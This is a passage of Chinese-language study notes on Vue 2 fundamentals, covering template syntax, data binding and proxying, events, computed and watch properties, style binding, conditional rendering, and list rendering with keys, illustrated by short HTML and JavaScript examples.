



# Vue

## 第1章 Vue基本用法

### 1.1 基础理论

#### 1.1.1 MVVM模型

1. M：模型(Model) ：data中的数据
2. V：视图(View) ：模板代码，vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用
3. VM：视图模型(ViewModel)：Vue实例，data中所有的属性，最后都出现在了vm身上

#### 1.1.2 Vue重要原则

1. 被Vue管理的函数，最好写成普通函数（不要写成箭头函数），这样this的指向才是 vm 或 组件实例对象

2. 不被Vue所管理的函数（定时器、ajax、Promise等），最好写成箭头函数，这样this的指向才是 vm 或 组件实例对象

3. 在Vue-CLI中，如果出现import语句，程序默认先执行import语句，而将import中间的代码后置执行

   ```js
   // test1.js
   console.log('test1')
   
   // test2.js
   console.log('test2')
   
   // index.js
   import '/.test1'
   console.log(100)
   console.log(200)
   import './test2'
   
   // 执行结果
   'test1'
   'test2'
   '100'
   '200'
   ```

#### 1.1.3 Vue基本结构

1. 引入Vue：`<script type="text/javascript" src="../js/vue.js"></script>`

   ```html
   <script type="text/javascript" src="https://cdn.jsdelivr.net/npm/vue/dist/vue.js"></script>
   ```

2. 准备容器：`<div id="root">`

3. 阻止提示：`Vue.config.productionTip = false`

4. 创建实例：

   1）el（element缩写）：指定当前Vue实例为哪个容器服务

   * 写法1：`el: '#root'`
   * 写法2：`const v = new Vue(...), v.$mount('#root')`

   ```js
   //el的两种写法
   const v = new Vue({
   	el:'#root', // 第一种写法
   	data:{
   		name:'尚硅谷'
   	}
   })
   
   v.$mount('#root') // 第二种写法
   ```

   2）data：存储数据，数据供el所指定的容器去使用

   * 写法1：对象型：`data: { name:'尚硅谷' }`
   * 写法2：函数型（脚手架必用）：`data() { return { name:'尚硅谷', }}`

   ```js
   //data的两种写法
   new Vue({
     el: '#root',
     // 第一种写法：对象式
     data:{
   		name:'尚硅谷'
   	}
     // 第二种写法：函数式
     data() {
       console.log('@@@', this) //此处的this是Vue实例对象
       return {
         name: '尚硅谷',
       }
     },
   })
   ```

5. 完整的HTML单页写法：

   ```html
   <!-- 引入vue.js -->
   <script type="text/javascript" src="../js/vue.js"></script>
   <!-- 准备好一个容器 -->
   <div id="demo">
     <h1>Hello，{{name.toUpperCase()}}，{{address}}</h1>
   </div>
   <script type="text/javascript">
     Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
     //创建Vue实例
     new Vue({
       el: '#demo', //el（element缩写）用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。
       data: {
         //data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对象。
         name: 'atguigu',
         address: '北京',
       },
     })
   </script>
   ```

#### 1.1.4 模板语法

1. 插值语法：`{{xxx}}`，用于解析标签体内容，里面要写js表达式

2. 指令语法：用于解析标签（包括：标签属性、标签体内容、绑定事件等）

   * 语法：`v-bind`、`v-model`、`v-for`、`v-text`等等

   ```html
   <div id="root">
     <h1>插值语法</h1>
     <h3>你好，{{name}}</h3>
     <hr />
     <h1>指令语法</h1>
     <a v-bind:href="school.url.toUpperCase()" x="hello">点我去{{school.name}}学习1</a>
     <a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       name: 'jack',
       school: {
         name: '尚硅谷',
         url: 'http://www.atguigu.com',
       },
     },
   })
   ```

3. 注意：js表达式和js语句的区别

   1）js表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方

   ```js
   a
   a+b
   demo(1)
   x === y ? 'a' : 'b'
   ```

   2）js语句：`if(){}`、`for(){}`

------

### 1.2 数据绑定与代理

#### 1.2.1 数据绑定 v-bind/model

1. 单向绑定(`v-bind`)：数据只能从data流向页面

   ```html
   <input type="text" :value="name" />
   ```

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
     },
   })
   ```

2. 双向绑定(`v-model`)：数据不仅能从data流向页面，还可以从页面流向data

   1）一般都应用在表单类元素上（如：input、select等）

   2）`v-model:value` 可以简写为 v-model，因为v-model默认收集的就是value值

   ```html
   <input type="text" v-model="name" />
   ```

   3）注意：v-model绑定的值不能是`props`传过来的值，因为`props`是不可以修改的！

3. `v-model`的三个修饰符：

   1）`lazy`：失去焦点再收集数据，适合用于文本框textarea

   ```html
   <textarea v-model.lazy="userInfo.other"></textarea>
   ```

   2）`number`：输入字符串转为有效的数字

   ```html
   年龄：<input type="number" v-model.number="userInfo.age" />
   ```

   3）`trim`：输入首尾空格过滤

   ```html
   账号：<input type="text" v-model.trim="userInfo.account" />
   ```

#### 1.2.2 数据代理

##### 1.2.2.1 原JS的数据代理

1. 语法：`Object.defineProperty (obj, prop, descriptor )`

2. descriptor说明：以对象的形式书写，对于obj初始时内部定义的属性，descriptor中后三项默认都是true

   1）`value`：设置属性值，默认为undefined

   2）`writable`: 布尔值，值是否可以重写，默认为false

   3）`enumerable`: 布尔值，目标属性是否可以被枚举，默认为 false，即Object.keys()是否可以遍历出该属性

   4）`configurable`：布尔值，目标属性是否可以被删除或是否可以再次修改特性，默认为false

3. `get函数(getter)`：当有人读取对象的新增属性时，get函数(getter)就会被调用，且返回值就是新增属性的值

4. `set函数(setter)`：当有人修改对象的新增属性时，set函数(setter)就会被调用，且会收到修改的具体值

   ```js
   let number = 18
   let person = {
     name: '张三',
     sex: '男',
   }
   Object.defineProperty(person, 'age', {
     get() {
       console.log('有人读取age属性了')
       return number
     },
     // 当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
     set(value) {
       console.log('有人修改了age属性，且值是', value)
       number = value
     },
   })
   ```

##### 1.2.2.2 Vue的数据代理

1. 目的：通过vm对象来代理data对象中属性的操作（读/写）

2. 原理：

   1）通过`Object.defineProperty()`把data对象中所有属性添加到`vm`上

   2）为每一个添加到vm上的属性，都指定一个getter/setter

   3）在getter/setter内部去操作（读/写）data中对应的属性
   
   ```html
   <div id="root">
     <h2>学校名称：{{name}}</h2>
     <h2>学校地址：{{address}}</h2>
   </div>
   ```
   
   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       address: '宏福科技园',
     },
   })
   ```

------

### 1.3 事件处理 methods

#### 1.3.1 基本用法 v-on/@

1. 语法：

   1）HTML标签：用`v-on:xxx` 或 `@xxx` 绑定事件，其中xxx是事件名

   2）Vue实例：配置在methods对象中，最终会在vm上

2. 注意：

   1）methods中配置的函数，不要用箭头函数！否则this就不是vm了

   2）methods中配置的函数，都是被Vue所管理的函数，this 的指向是vm 或 组件实例对象

   3）`@click="demo"` 和 `@click="demo($event)"` 效果一致，但后者可以传参

3. 事件对象：`$event`

   1）等同于原生JS函数参数中的`event`

   2）常用：`e.target.value`，取input输入框中的值

   ```html
   <body>
     <div id="root">
       <h2>欢迎来到{{name}}学习</h2>
       <!-- <button v-on:click="showInfo">点我提示信息</button> -->
       <button @click="showInfo1">点我提示信息1（不传参）</button>
       <!-- 如果需要传参，可以用$event保留函数中的event对象 -->
       <button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
     </div>
   </body>
   <script type="text/javascript">
     Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示
     const vm = new Vue({
       el: '#root',
       data: {
         name: '尚硅谷',
       },
       // 固定写法：methods
       methods: {
         showInfo1(event) {
           // console.log(event.target.innerText)
           // console.log(this) //此处的this是vm
           alert('同学你好！')
         },
         showInfo2(event, number) {
           console.log(event, number)
           // console.log(event.target.innerText)
           // console.log(this) //此处的this是vm
           alert('同学你好！！')
         },
       },
     })
   </script>
   ```

#### 1.3.2 事件修饰符

1. `prevent`：阻止默认事件（常用）

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
     },
     methods: {
       showInfo(e) {
         alert('同学你好！')
         // console.log(e.target)
       },
       showMsg(msg) {
         console.log(msg)
       },
       demo() {
         for (let i = 0; i < 100000; i++) {
           console.log('#')
         }
         console.log('累坏了')
       },
     },
   })
   ```

   ```html
   <a href="http://www.atguigu.com" @click.prevent="showInfo">点我提示信息</a>
   ```

2. `stop`：阻止事件冒泡（常用）

   ```html
   <div class="demo1" @click="showInfo">
     <button @click.stop="showInfo">点我提示信息</button>
     <!-- 修饰符可以连续写 -->
     <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a>
   </div>
   ```

3. `once`：事件只触发一次（常用）

   ```html
   <button @click.once="showInfo">点我提示信息</button>
   ```

4. `capture`：使用事件的捕获模式

   ```html
   <div class="box1" @click.capture="showMsg(1)">
     div1
     <div class="box2" @click="showMsg(2)">div2</div>
   </div>
   ```

5. `self`：只有event.target是当前操作的元素时才触发事件（与阻止冒泡stop相同）

   ```html
   <div class="demo1" @click.self="showInfo">
     <button @click="showInfo">点我提示信息</button>
   </div>
   ```

6. `passive`：事件的默认行为立即执行，无需等待事件回调执行完毕

   ```html
   <!-- 事件：scroll：滚动条，鼠标和键盘都可以操作；wheel：只有鼠标滚轮才能操作 -->
   <!-- 效果：如果不加passive，会等待demo函数计算完毕后，滚动条才会移动，加上passive可以不用等demo计算完，滚动条便可以移动 -->
   <!-- 注意：也并非所有动作都收到passive的影响，scroll不加passive也一样优先被滚动 -->
   <!-- <ul @wheel="demo" class="list"> -->
   <ul @wheel.passive="demo" class="list">
     <li>1</li>
     <li>2</li>
     <li>3</li>
     <li>4</li>
   </ul>
   ```

#### 1.3.3 键盘事件

1. 按键别名：

   1）回车 => `enter`

   2）删除 => `delete` (捕获“删除”和“退格”键)

   3）退出 => `esc`

   4）空格 => `space`

   5）换行 => `tab` (特殊，必须配合keydown去使用)

   6）上 => `up`

   7）下 => `down`

   8）左 => `left`

   9）右 => `right`

2. 未提供别名的按键:

   1）方法1：用按键原始的key值去绑定，但要转为kebab-case，例：CapsLock要写成`caps-lock`

   ```html
   <input type="text" placeholder="按下CapsLock提示输入" @keydown.caps-lock="showInfo" />
   ```

   2）方法2：`Vue.config.keyCodes.自定义键名 = 键码`

   ```js
   <!-- Vue2可用，但Vue3中被废除 -->
   Vue.config.keyCodes.huiche = 13
   ```

   3）废除方法：使用键码指定按键，如 `@keydown.13`

   ```html
   <!-- 以下方法被废除 -->
   <input type="text" placeholder="按下回车提示输入" @keydown.13="showInfo" />
   ```

3. 系统修饰键：

   1）按键：ctrl、alt、shift、meta

   2）配合`keyup`：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发

   ```html
   <!-- 系统修饰键盘如果配合keyup使用，可以在后面加一个按键，指定需要同时按下的键，如果不指定，配合任何按键同时按下均可 -->
   <input type="text" placeholder="按下回车提示输入" @keyup.ctrl.y="showInfo" />
   ```

   3）配合`keydown`：正常触发事件

   ```html
   <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo" />
   ```

4. 案例完整代码：

   ```html
   <div id="root">
     <h2>欢迎来到{{name}}学习</h2>
     <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo" />
     <!-- 系统修饰键盘如果配合keyup使用，可以在后面加一个按键，指定需要同时按下的键，如果不指定，配合任何按键同时按下均可 -->
     <input type="text" placeholder="按下回车提示输入" @keyup.ctrl.y="showInfo" />
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   Vue.config.keyCodes.huiche = 13 //定义了一个别名按键
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
     },
     methods: {
       showInfo(e) {
         // e.key：按键名称；e.keyCode：按键编码
         // console.log(e.key, e.keyCode)
         console.log(e.target.value)
       },
     },
   })
   ```

------

### 1.4 计算属性 computed

1. 定义：要用的属性不存在，要通过已有属性计算得来

2. 与method区别：

   1）内部有缓存机制（复用），效率更高、调试方便

   2）如果多次调用，无需多次get，直接读取缓存，除非数据发生了变化，再重新get一次

   ```html
   <!-- method实现 -->
   <div id="root">
     姓：<input type="text" v-model="firstName" /> <br /><br />
     名：<input type="text" v-model="lastName" /> <br /><br />
     全名：<span>{{fullName()}}</span>
   </div>
   <script type="text/javascript">
     Vue.config.productionTip = false
     new Vue({
       el: '#root',
       data: {
         firstName: '张',
         lastName: '三',
       },
       methods: {
         // 只要vue中的数据发生改变，就会重新调用该函数，重新解析模板
         fullName() {
           console.log('@---fullName')
           return this.firstName + '-' + this.lastName
         },
       },
     })
   </script>
   ```

   ```html
   <!-- computed实现 -->
   <div id="root">
     姓：<input type="text" v-model="firstName" /> <br /><br />
     名：<input type="text" v-model="lastName" /> <br /><br />
     测试：<input type="text" v-model="x" /> <br /><br />
     全名：<span>{{fullName}}</span> <br /><br />
   </div>
   <script type="text/javascript">
     Vue.config.productionTip = false
     const vm = new Vue({
       el: '#root',
       data: {
         firstName: '张',
         lastName: '三',
         x: '你好',
       },
       methods: {
         demo() {},
       },
       // 计算属性
       computed: {
         fullName: {
           // get作用：当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
           // get调用：1.初次读取fullName时。2.所依赖的数据发生变化时。
           get() {
             console.log('get被调用了')
             // console.log(this) //此处的this是vm
             return this.firstName + '-' + this.lastName
           },
           // set调用：当fullName被修改时
           // set不是必须要写的，除非存在fullName有被修改的需求
           set(value) {
             console.log('set', value)
             const arr = value.split('-')
             this.firstName = arr[0]
             this.lastName = arr[1]
           },
         },
       },
     })
   </script>
   ```

3. 原理：底层借助了`Objcet.defineproperty`方法提供的`getter`和`setter`
   * get函数执行时间：初次读取时会执行一次，当依赖的数据发生改变时会被再次调用

4. 注意：

   1）计算属性最终会出现在vm上，直接读取使用即可

   2）如果计算属性要被修改，必须写`set`函数去响应修改，且`set`中要引起计算时依赖的数据发生改变

   3）允许套娃：在计算属性中下方定义的属性可以利用上方定义的属性进行计算

5. 简写：只写`get`，但只读不改

   ```js
   computed: {
     //完整写法
     fullName: {
       get() {
         console.log('get被调用了')
         return this.firstName + '-' + this.lastName
       },
       set(value) {
         console.log('set', value)
         const arr = value.split('-')
         this.firstName = arr[0]
         this.lastName = arr[1]
       },
     },
   },
   ```

   ```js
   computed: {
     //简写（只读不改）
     fullName() {
       console.log('get被调用了')
       return this.firstName + '-' + this.lastName
     },
   },
   ```

------

### 1.5 监视属性 watch

1. 定义：当被监视的属性变化时, 回调函数自动调用, 进行相关操作（监视的属性必须存在，才能进行监视！）

2. 写法：

   1）new Vue时传入watch配置

   ```html
   <div id="root">
     <h2>今天天气很{{info}}</h2>
     <button @click="changeWeather">切换天气</button>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       isHot: true,
     },
     computed: {
       info() {
         return this.isHot ? '炎热' : '凉爽'
       },
     },
     methods: {
       changeWeather() {
         this.isHot = !this.isHot
       },
     },
     // 监视属性
     watch: {
       isHot: {
         immediate: true,
         handler(newValue, oldValue) {
           console.log('isHot被修改了', newValue, oldValue)
         },
       },
     },
   })
   // 必须创建实例才能用
   vm.$watch('isHot', {
     immediate: true, //初始化时让handler调用一下
     //handler什么时候调用？当isHot发生改变时。
     handler(newValue, oldValue) {
       console.log('isHot被修改了', newValue, oldValue)
     },
   })
   ```

   2）通过vm.$watch监视

   ```html
   <div id="root">
     <h2>今天天气很{{info}}</h2>
     <button @click="changeWeather">切换天气</button>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       isHot: true,
     },
     computed: {
       info() {
         return this.isHot ? '炎热' : '凉爽'
       },
     },
     methods: {
       changeWeather() {
         this.isHot = !this.isHot
       },
     },
   // 监视属性
   vm.$watch('isHot', {
     immediate: true,
     handler(newValue, oldValue) {
       console.log('isHot被修改了', newValue, oldValue)
     },
   })
   ```

3. 参数：

   1）`immediate`：布尔值，默认false，初始化时是否让handler调用一下

   2）`handler(newValue,oldValue){...}`：回调函数，当监视的属性改变时被调用

   3）`deep`: true，深度监视模式，注意：如果不用deep，也可以单写 obj.attr，但很麻烦

   ```html
   <div id="root">
     <h2>今天天气很{{info}}</h2>
     <button @click="changeWeather">切换天气</button>
     <hr />
     <h3>a的值是:{{numbers.a}}</h3>
     <button @click="numbers.a++">点我让a+1</button>
     <h3>b的值是:{{numbers.b}}</h3>
     <button @click="numbers.b++">点我让b+1</button>
     <button @click="numbers = {a:666,b:888}">彻底替换掉numbers</button>
     {{numbers.c.d.e}}
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       isHot: true,
       numbers: {
         a: 1,
         b: 1,
         c: {
           d: {
             e: 100,
           },
         },
       },
     },
     computed: {
       info() {
         return this.isHot ? '炎热' : '凉爽'
       },
     },
     methods: {
       changeWeather() {
         this.isHot = !this.isHot
       },
     },
     watch: {
       isHot: {
         handler(newValue, oldValue) {
           console.log('isHot被修改了', newValue, oldValue)
         },
       },
       // 监视多级结构中某个属性的变化（勿忘外面加引号，这样写太麻烦）
       /* 'numbers.a':{
   			handler(){
   				console.log('a被改变了')
   			}
   		} */
       // 监视多级结构中所有属性的变化
       numbers: {
         deep: true,
         handler() {
           console.log('numbers改变了')
         },
       },
     },
   })
   ```

4. 简写：`attibute(newValue, oldValue){...}`，注意：无法配置`immediate`、`deep`等参数

   ```js
   // 写法1
   watch: {
     isHot(newValue,oldValue){
       console.log('isHot被修改了',newValue,oldValue,this)
     }
   },
   
   // 写法2
   vm.$watch('isHot',(newValue,oldValue)=>{
   	console.log('isHot被修改了',newValue,oldValue,this)
   })
   ```

5. 与computed区别：

   1）computed能完成的功能，watch都可以完成

   2）watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作

   ```html
   <div id="root">
     姓：<input type="text" v-model="firstName" /> <br /><br />
     名：<input type="text" v-model="lastName" /> <br /><br />
     全名：<span>{{fullName}}</span> <br /><br />
   </div>
   ```
   
   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       firstName: '张',
       lastName: '三',
       fullName: '张-三',
     },
     watch: {
       // 监视firstName
       firstName(val) {
         // 改变姓时，延迟一秒再改变全名，这个用compute无法实现
         // 这里定时器之所以可用箭头函数，因为定时器不是vue管理的，而是js引擎调用的
         setTimeout(() => {
           console.log(this) // 必须使用箭头函数，this才能指向vue，否则指向windows了
           this.fullName = val + '-' + this.lastName
         }, 1000)
       },
       // 监视lastName
       lastName(val) {
         this.fullName = this.firstName + '-' + val
       },
     },
   })
   ```

------

### 1.6 绑定样式

#### 1.6.1 class样式

1. 字符串写法：`:class="mood"`，类名不确定，要动态获取

   ```html
   <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
   ```

   ```js
   // vue
   methods: {
     changeMood() {
       const arr = ['happy', 'sad', 'normal']
       const index = Math.floor(Math.random() * 3)
       this.mood = arr[index]
     },
   },
   ```

   ```css
   /* css */
   .happy {
     border: 4px solid red;
     background-color: rgba(255, 255, 0, 0.644);
     background: linear-gradient(30deg, yellow, pink, orange, yellow);
   }
   
   .sad {
     border: 4px dashed rgb(2, 197, 2);
     background-color: gray;
   }
   
   .normal {
     background-color: skyblue;
   }
   ```

2. 数组写法：`:class="classArr"`，要绑定多个样式，个数不确定，名字也不确定

   ```html
   <div class="basic" :class="classArr">{{name}}</div>
   ```

   ```js
   data: {
     classArr: ['atguigu1', 'atguigu2', 'atguigu3'],
   },
   ```

   ```css
   .atguigu1 {
     background-color: yellowgreen;
   }
   .atguigu2 {
     font-size: 30px;
     text-shadow: 2px 2px 10px red;
   }
   .atguigu3 {
     border-radius: 20px;
   }
   ```

3. 对象写法：`:class="classObj"`，要绑定多个样式，个数确定，名字也确定，但不确定用不用

   ```html
   <div class="basic" :class="classObj">{{name}}</div>
   ```

   ```js
   data: {
     classObj: {
       atguigu1: false,
       atguigu2: false,
       atguigu3: true,
     },
   },
   ```

   ```css
   .atguigu1 {
     background-color: yellowgreen;
   }
   .atguigu2 {
     font-size: 30px;
     text-shadow: 2px 2px 10px red;
   }
   .atguigu3 {
     border-radius: 20px;
   }
   ```

#### 1.6.2 style样式

1. 对象写法：`:style="styleObj"`

   ```html
   <div class="basic" :style="styleObj">{{name}}</div>
   ```

   ```js
   data: {
     styleObj: {
       fontSize: '40px',
       color: 'red',
     },
   },
   ```
   
2. 数组写法：`:style="styleArr"`

   ```html
   <!--等同于：<div class="basic" :style="[styleObj,styleObj2]">{{name}}</div>）-->
   <div class="basic" :style="styleArr">{{name}}</div>
   ```
   
   ```js
   data: {
     styleArr: [
       {
         fontSize: '40px',
         color: 'red',
       },
       {
         backgroundColor: 'orange',
       },
     ],
   },
   ```

------

### 1.7 条件渲染 v-if/show

#### 1.7.1 v-if

> v-if 适用：切换频率较低的场景，不展示的DOM元素直接被移除

1. 写法：

   1）`v-if="表达式"`

   2）`v-else-if="表达式"`

   3）`v-else="表达式"`

2. 注意：v-if 可以和 v-else-if、v-else一起使用，但要求结构不能被“打断”

   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       n: 0,
     },
   })
   ```

   ```html
   <h2>当前的n值是:{{n}}</h2>
   <button @click="n++">点我n+1</button>
   <!-- 使用v-if做条件渲染(不展示的DOM元素直接被移除) -->
   <h2 v-if="false">欢迎来到{{name}}，DOM元素已经被移除</h2>
   <h2 v-if="1 === 1">欢迎来到{{name}}</h2>
   <div v-if="n === 1">Angular</div>
   <!-- v-else和v-else-if -->
   <div v-else-if="n === 2">React</div>
   <div v-else-if="n === 3">Vue</div>
   <div v-else>超出范围了……</div>
   <!-- template只能与v-if配合使用 -->
   <template v-if="n === 1">
     <h2>你好</h2>
     <h2>尚硅谷</h2>
     <h2>北京</h2>
   </template>
   ```

#### 1.7.2 v-show

> v-show 适用：切换频率较高的场景，不展示的DOM元素未被移除，仅仅是使用样式隐藏掉

1. 写法：`v-show="表达式"`

   ```js
   Vue.config.productionTip = false
   const vm = new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       n: 0,
     },
   })
   ```

   ```html
   <h2>当前的n值是:{{n}}</h2>
   <button @click="n++">点我n+1</button>
   <h2 v-show="false">欢迎来到{{name}}，但是用样式隐藏了</h2>
   <h2 v-show="1 === 1">欢迎来到{{name}}，你能看见这条</h2>
   ```

------

### 1.8 列表渲染 v-for

#### 1.8.1 v-for

> v-for 作用：展示列表数据

1. 语法：`v-for="(item, index) in xxx" :key="yyy"`

   1）key：将每个数据绑定唯一标识

   2）index：默认生成的索引值，从0开始

2. 可遍历：

   ```js
   new Vue({
     el: '#root',
     data: {
       persons: [
         { id: '001', name: '张三', age: 18 },
         { id: '002', name: '李四', age: 19 },
         { id: '003', name: '王五', age: 20 },
       ],
       car: {
         name: '奥迪A8',
         price: '70万',
         color: '黑色',
       },
       str: 'hello',
     },
   })
   ```

   1）数组

   ```html
   <ul>
   	<!-- key的意思是将每个数据绑定唯一标识，绑定的内容保证每项都是不同的即可 -->
   	<!-- index是默认生成的索引值，从0开始 -->
   	<li v-for="(item, index) of persons" :key="index">
   		{{item.name}}-{{item.age}}-{{index}}
   	</li>
   </ul>
   ```

   2）对象

   ```html
   <ul>
   	<li v-for="(value, key) of car" :key="key">
   		{{key}}-{{value}}
   	</li>
   </ul>
   ```

   3）字符串

   ```html
   <ul>
   	<li v-for="(char, index) of str" :key="index">
   		{{char}}-{{index}}
   	</li>
   </ul>
   ```

   4）指定次数

   ```html
   <ul>
   	<li v-for="(number, index) of 5" :key="index">
   		{{index}}-{{number}}
   	</li>
   </ul>
   ```

#### 1.8.2 key的内部原理

1. 虚拟DOM中key的作用：key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较

2. 对比规则：

   1）旧虚拟DOM中找到了与新虚拟DOM相同的key：

   * 若虚拟DOM中内容没变, 直接使用之前的真实DOM
   * 若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM

   2）旧虚拟DOM中未找到与新虚拟DOM相同的key：创建新的真实DOM，随后渲染到到页面

3. 用index作为key可能会引发的问题：

   1）对数据进行：逆序添加、逆序删除等破坏顺序操作：会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低

   2）如果结构中还包含输入类的DOM：会产生错误DOM更新 ==> 界面有问题

4. 开发中如何选择key：

   1）最好使用每条数据的唯一标识作为key，比如id、手机号、身份证号、学号等唯一值

   2）如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，可使用index作为key

   ```html
   <div id="root">
     <!-- 遍历数组 -->
     <h2>人员列表（遍历数组）</h2>
